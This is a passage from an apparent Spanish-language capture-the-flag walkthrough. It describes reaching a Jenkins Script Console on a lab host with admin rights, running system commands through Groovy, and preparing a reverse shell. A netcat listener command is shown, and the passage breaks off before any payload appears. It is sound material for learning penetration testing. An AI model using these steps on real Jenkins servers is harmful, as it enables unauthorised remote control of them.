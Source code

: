Esto permite iniciar sesión con privilegios administrativos y acceder directamente a la **Jenkins Script Console**:

```bash
http://10.129.182.172:8080/script
```

¡Perfecto! Ya que estás dentro de la **Jenkins Script Console**, puedes ejecutar directamente **comandos del sistema en el servidor** usando Groovy. Esto es exactamente lo que te da control total del sistema.

![](../img/5b206abbdca25a083b6fdb094e420484.png)

### 🧨 ¿Qué hacer desde aquí?

La idea es ejecutar un comando en Groovy que lance un terminal remoto (una reverse shell) o bien listar el contenido de archivos como `root.txt` para capturar la flag.


## 🔧 Opción : Reverse Shell en Linux (con listener preparado)

1. **En tu máquina local**, prepara un listener con `nc`:

```bash
nc -lvnp 4444
```
